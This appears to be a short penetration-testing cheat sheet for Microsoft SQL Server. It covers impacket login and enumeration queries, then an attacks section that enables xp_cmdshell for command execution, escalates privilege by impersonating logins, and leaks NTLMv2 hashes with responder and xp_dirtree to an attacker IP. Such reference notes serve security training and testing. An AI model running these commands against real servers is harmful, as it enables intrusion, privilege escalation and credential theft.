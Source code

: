 
### Authentication

**Authenticate using impacket**
```bash
impacket-mssqlclient <domain>/<user>:'<pass>'@<IP> -windows-auth
```


### Enumeration

| Command                                         | Info           |
| ----------------------------------------------- | -------------- |
| `SELECT @@version;`                             | Get DB version |
| `SELECT name FROM sys.databases;`               | List databases |
| `SELECT name FROM master.dbo.sysdatabases;`     | List databases |
| `USE <DB>;`                                     | Select DB      |
| `SELECT * FROM <DB>.information_schema.tables;` | List tables    |
| `SELECT * FROM <DB>.dbo.<table>;`               | Query table    |


### Attacks

**Command injection:**

Command execution in 1 command:
```shell
EXECUTE sp_configure 'show advanced options', 1;RECONFIGURE;EXECUTE sp_configure 'xp_cmdshell', 1;RECONFIGURE

EXECUTE xp_cmdshell 'whoami'
```

**Impersonate users:**

Find users you can impersonate:
```bash
SQL (HAERO\discovery  guest@msdb)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

name             
--------------   
hrappdb-reader  
```

Impersonate the user:
```bash
EXECUTE AS LOGIN = 'hrappdb-reader'
```

**Leak NTLMv2 hash**
```bash
sudo responder -I tun0 -A # Analyze mode
xp_dirtree \\<IP>\test
```

